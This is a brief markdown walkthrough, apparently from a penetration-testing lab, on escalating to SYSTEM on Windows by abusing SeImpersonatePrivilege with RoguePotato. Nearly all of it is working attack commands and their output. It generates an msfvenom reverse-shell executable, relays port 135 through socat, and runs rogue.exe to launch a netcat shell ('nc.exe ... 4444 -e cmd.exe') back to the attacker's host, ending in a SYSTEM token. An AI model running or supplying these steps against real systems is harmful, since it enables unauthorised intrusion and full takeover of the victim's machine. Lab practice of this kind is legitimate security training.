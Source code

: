 ## how to exploit SeImpersonatePrivilege using a juicePotato binary

with roguepotato binary we can use get with this approach here, just make this binary is present on the target machine and a location that is writable oky hackerB0y.

## requirements 
1. we need to generate a binary on our machine with msfvenom
command: msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.29 LPORT=4444 -a x64 --platform Windows -f exe -o shell.exe
```
┌──(alienx㉿alienX)-[~/Desktop/MACHINES/REMOTE]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.29 LPORT=4444 -a x64 --platform Windows -f exe -o shell.exe                           
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe

```

2.  we need to run this command on our machine

command: sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.10.180:9999
```
┌──(alienx㉿alienX)-[~/Desktop/MACHINES/REMOTE]
└─$ sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.10.180:9999
[sudo] password for alienx: 
2024/04/13 09:09:26 socat[32866] E read(5, 0x5608bdf2e000, 8192): Connection reset by peer
2024/04/13 09:09:26 socat[32867] E read(5, 0x5608bdf2e000, 8192): Connection reset by peer
2024/04/13 09:10:21 socat[32870] E read(5, 0x5608bdf2e000, 8192): Connection reset by peer
2024/04/13 09:11:28 socat[32948] E read(5, 0x5608bdf2e000, 8192): Connection reset by peer

```

3.  we need to run this command on our target machine
command: rogue.exe -r 10.10.16.29 -e "c:\users\public\desktop\nc.exe 10.10.16.29 4444 -e cmd.exe" -l 9999  
```
C:\Users\Public\desktop>rogue.exe -r 10.10.16.29 -e "c:\users\public\desktop\nc.exe 10.10.16.29 4444 -e cmd.exe" -l 9999                                                                                                                      
rogue.exe -r 10.10.16.29 -e "c:\users\public\desktop\nc.exe 10.10.16.29 4444 -e cmd.exe" -l 9999                                                                                                                                              
[+] Starting RoguePotato...
[*] Creating Rogue OXID resolver thread
[*] Creating Pipe Server thread..
[*] Creating TriggerDCOM thread...
[*] Listening on pipe \\.\pipe\RoguePotato\pipe\epmapper, waiting for client to connect
[*] Calling CoGetInstanceFromIStorage with CLSID:{4991d34b-80a1-4291-83b6-3328366b9097}
[*] Starting RogueOxidResolver RPC Server listening on port 9999 ... 
[*] IStoragetrigger written:104 bytes
[*] SecurityCallback RPC call
[*] ResolveOxid2 RPC call, this is for us!
[*] ResolveOxid2: returned endpoint binding information = ncacn_np:localhost/pipe/RoguePotato[\pipe\epmapper]
[*] Client connected!                                      
[+] Got SYSTEM Token!!!                                    
[*] Token has SE_ASSIGN_PRIMARY_NAME, using CreateProcessAsUser() for launching: c:\users\public\desktop\nc.exe 10.10.16.29 4444 -e cmd.exe
[+] RoguePotato gave you the SYSTEM powerz :D

```
